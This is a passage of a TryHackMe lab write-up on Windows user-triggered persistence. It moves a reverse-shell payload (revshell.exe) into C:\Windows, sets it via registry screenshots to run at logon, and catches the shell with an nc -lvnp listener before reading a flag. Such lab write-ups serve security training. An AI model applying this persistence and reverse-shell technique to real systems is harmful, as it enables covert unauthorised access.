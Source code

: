 ```PowerShell
Mode                LastWriteTime         Length Name
----                -------------         ------ ----
d-r---        3/17/2021   3:13 PM                3D Objects
d-r---        3/17/2021   3:13 PM                Contacts
d-r---         6/8/2022   4:40 AM                Desktop
d-r---        5/29/2022  12:07 AM                Documents
d-r---        5/29/2022  12:07 AM                Downloads
d-r---        3/17/2021   3:13 PM                Favorites
d-r---        3/17/2021   3:13 PM                Links
d-r---        3/17/2021   3:13 PM                Music
d-r---        3/17/2021   3:13 PM                Pictures
d-r---        3/17/2021   3:13 PM                Saved Games
d-r---        3/17/2021   3:13 PM                Searches
d-r---        3/17/2021   3:13 PM                Videos
-a----         7/7/2023   5:31 PM           7168 revshell.exe
```
8. `move <PAYLOAD NAME>.exe <DESTINATION PATH>`
```PowerShell
```PowerShell
PS C:\Users\Administrator>move revshell.exe C:\Windows
        1 file(s) moved.
```
9. `regedit`
```PowerShell
C:\Users\Administrator>regedit
```

![](https://github.com/JonmarCorpuz/TryHackMe-Writeups/blob/main/TryHackMe%20Module%20Task%20Writeups/Assets/Regedit%20Open.png)

![](https://github.com/JonmarCorpuz/TryHackMe-Writeups/blob/main/TryHackMe%20Module%20Task%20Writeups/Assets/Regedit%20Current%20User%20Environment%20.png)

![](https://github.com/JonmarCorpuz/TryHackMe-Writeups/blob/main/TryHackMe%20Module%20Task%20Writeups/Assets/Regedit%20Current%20User%20Environment%20pt2.png)

10. Sign out and log back in

![](https://github.com/JonmarCorpuz/TryHackMe-Writeups/blob/main/TryHackMe%20Module%20Task%20Writeups/Assets/Windows%20RDP%20Sign%20Out.png)

![](https://github.com/JonmarCorpuz/TryHackMe-Writeups/blob/main/TryHackMe%20Module%20Task%20Writeups/Assets/Windows%20RDP%20Reconnect.png)

![](https://github.com/JonmarCorpuz/TryHackMe-Writeups/blob/main/TryHackMe%20Module%20Task%20Writeups/Assets/Windows%20RDP%20Reconnected.png)

```Bash
root@ip-10-10-157-221:~# nc -lvnp 9999
Listening on [0.0.0.0] (family 0, port 9999)
Connection from 10.10.236.33 49969 received!
Microsoft Windows [Version 10.0.17763.1821]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>
```

11. `C:\flags\flag13.exe`
```PowerShell
C:\Windows\system32>C:\flags\flag13.exe
C:\flags\flag13.exe
THM{USER_TRIGGERED_PERSISTENCE_FTW}
```


**TASK COMPLETED**
